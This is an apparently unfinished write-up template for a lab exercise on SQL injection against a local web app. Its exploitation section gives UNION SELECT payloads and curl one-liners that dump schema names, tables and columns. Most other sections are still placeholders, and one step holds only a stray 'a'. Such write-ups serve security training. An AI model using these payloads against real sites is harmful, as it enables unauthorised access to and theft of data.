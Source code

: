 # Exercise Name

## 📖 Vulnerability Explanation
[Explain what the vulnerability is, how it works, and why it's dangerous. Include conditions required for exploitation if applicable.]

## ⚙️ Exploitation Process

- Dump databases

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>//' | sed 's/<\/pre>//' | grep -v table | awk '{print $3}'
```

---

- Dump tables

```
0 UNION SELECT table_name,table_schema FROM information_schema.tables; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+table_schema%2Ctable_name+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Database   : /' | sed 's/Surname : /[-] Table name : /' | grep -v table
```

---

- Dump columns of table images

```
echo -n 'list_images' | xxd -p
```

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x6c6973745f696d61676573%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: //' | grep -v 'Url : '
```

---

- Read columns _title_ and _comment_

```
a
```

> TAKE A LOOK AT THE PAGE YOU ARE SENDING THE REQUESTS TO

> MAKE SURE THE SQLi AND THE REQUEST MATCH

## 🧰 Additional Resources Used
- [Tool/Script Name]: [Brief description of purpose]
- Example: *Custom Python script to exploit XXE and read arbitrary files from the server.*

## 🔧 Fix
[Describe how to fix the vulnerability]

## ☝️🤓 Advanced explanation
[Provide advanced explanation for the bonus part]